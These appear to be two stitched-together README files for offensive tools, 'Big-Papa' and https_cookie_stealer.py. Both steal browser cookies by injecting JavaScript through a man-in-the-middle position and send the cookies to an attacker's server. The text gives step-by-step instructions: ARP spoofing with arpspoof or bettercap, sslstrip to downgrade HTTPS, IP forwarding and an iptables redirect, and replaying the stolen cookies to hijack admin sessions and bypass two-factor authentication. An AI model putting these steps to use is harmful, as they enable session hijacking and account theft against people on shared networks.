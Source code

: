 ![SxNade](https://img.shields.io/badge/MadeBy-SxNade-red)

# Big-Papa

![Capture](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQlqh70DzxUIwh08dpOzmZmCxm0t44h1q3xug&usqp=CAU)

Big-Papa Integrates Javascript and python for remote cookie stealing which then can be used for session hijacking

---

# IN ACTION

![Capture](https://github.com/SxNade/Big-Papa/blob/main/bgp.gif)

`The Higlighted data is the cookie of ongoing admin session on a router(gateway)`

***Now we can use something Like Burpsuite or your favorite cookie editor extension on firefox to Load the cookies and Hijack the admin session***

# 𝗜𝗡𝗦𝗧𝗔𝗟𝗟𝗔𝗧𝗜𝗢𝗡 𝗜𝗡𝗦𝗧𝗥𝗨𝗖𝗧𝗜𝗢𝗡𝗦

` 1 chmod +x install.sh`

`2 ./install.sh`

**PLease Note that you need to edit the Javascript File to your own Local IP address**

![Capture](https://raw.githubusercontent.com/SxNade/Big-Papa/main/rplace_ip.png)


# How Does it work?

**Big-Papa utilizes malicious javascript code injection...and then makes a GET Request(with cookies) to the Python Web server running on the attacker machine**


`Note That you need to be man in the middle in order to inject the malicious javascript Code and then steal cookies of the website that the victim is currently visting`


*`For testing purposes copy the Javascript code from the bgp.js file without the script tags and execute in the console of the browser`*


*You can use Bettercap in-order to become man-in-the-middle using bettercap or use arp spoof and then run Big-Papa to inject Javascript*



# For HTTPS?



`Big-Papa will work Perfectly against HTTP websites but For HTTPS you can use sslstrip to Downgrade it to HTTP and then utilize Big-Papa`



*SSLstrip --> https://github.com/moxie0/sslstrip.git



*Still some websites use HTTP and thus their data including Passwords can be read in Clear text but we need to steal cookies in some cases in order to Bypass 2-Factor-Authentication*



# 𝕌ℙ𝔻𝔸𝕋𝔼

`There were problems with writing code for javscript injector due to ongoing problems with netfilterqueue installation`


**BUT YOU CAN STILL USE BETTERCAP TO BECOME MAN IN THE MIDDLE AND ALSO INJECT JAVASCRIPT CODE USING BETTERCAP**

*INSTALL BETTERCAP AS FOLLOWS

`sudo apt install bettercap`

*Then you can run Big-Papa to capture cookies*

*You can manually perform the mitm attack and then inject the Javascript code with Big-Papa.py script runnning along*

`A new feature to mail the captured cookies to user specified e-mail will be added soon...`

# 𝑴𝑨𝑲𝑬_𝑰𝑻_𝑩𝑬𝑻𝑻𝑬𝑹
To make Big-Papa Even Better Contribute to it Or use and Report Any Bugs or fixes Required..

` git clone https://github.com/SxNade/Big-Papa`

https_cookie_stealer.py is a MITM PoC that allows stealing of cookies that are not
secured with the "secure" attribute, even if the target server can be reached
only via https.

This is done by injecting a small piece of HTML code into every clear text http
response for the client which forces to load a JavaScript code from the (not existing)
http service of the target server.

Example:
<script language="javascript" type="text/javascript" src="http://xxxx"></script>

It then implements a basic http service to retrieve the cookie values.

https_cookie_stealer.py is based on the MITMProxy (http://mitmproxy.org/) library libmproxy.

Running:
https_cookie_stealer.py can be run from the source base without installation.  
Just run 'python https_cookie_stealer.py' as a non-root user to get the
command-line options.

The four steps to getting this working (assuming you're running Linux)
are:

1) Flip your machine into forwarding mode (as root):
echo "1" > /proc/sys/net/ipv4/ip_forward

2) Setup iptables to intercept HTTP requests (as root):
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>

3) Run https_cookie_stealer.py with the command-line options you'd like (see above).

4) Run arpspoof to redirect traffic to your machine (as root):
arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>
